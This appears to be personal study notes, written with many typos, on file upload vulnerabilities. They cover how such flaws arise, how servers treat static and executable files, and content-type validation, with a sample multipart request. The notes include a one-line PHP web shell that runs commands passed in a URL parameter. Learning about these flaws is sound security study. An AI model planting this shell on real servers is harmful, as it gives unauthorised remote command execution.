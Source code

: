 # File Upload Vulnearbility

- File upload vulnearbility is when a server is allow user to upload file to the system without sufficiently validating things like, type, content, size etc.
- this can lead to potentially dangerous file uploads, that comporomize whole web server/network and cause many damage

## Impact of file upload vulnerability 
### Depands on
1. which aspect of file type the website fails to validate properly, whethere its be size,type, contents etc
2. what restriction are imposed on the file once it has been sucessfully uploaded.

## How file upload vulnerabiltiy arises ?
- eg. they have blacklist for dangerous file types, but fail to account for parsing discrepancies when checking the file extensions.
- other case: server attempt to check the file type by verifying properties that can be easily manipulated by attacker using proxy tools.

### How web server handle request for static files?
- server parse the file path in the request to identify file type, & determine whether to directly send to the client or parse and send the reesult
- eg. Image/non-executable file, & static html page, server send file's content to the client
- eg. executable file like Php, & server configured to execute this type of files, so server execute that file and send the result/output to the client.
- if file type is executable but server not configure to execute the file, then return the error to the client

`The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.`

## Exploiting unrestricted file uploads to deploy a web shell

```php
<?php echo system($_GET['cmd']); ?>
```

## Exploiting Flawed validation of file uploads
### Flawed file type validation
- when sending text file `content-type: application/x-www-url-encoded` used for sending text data or small data
- when sending large file liek PDf and binary data we used `content-type: multipart/form-data`

eg. form request 
```js
POST /images HTTP/1.1  
Host: normal-website.com  
Content-Length: 12345  
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456  
  
---------------------------012345678901234567890123456  
Content-Disposition: form-data; name="image"; filename="example.jpg"  
Content-Type: image/jpeg  
  
[...binary content of example.jpg...]  
  
---------------------------012345678901234567890123456  
```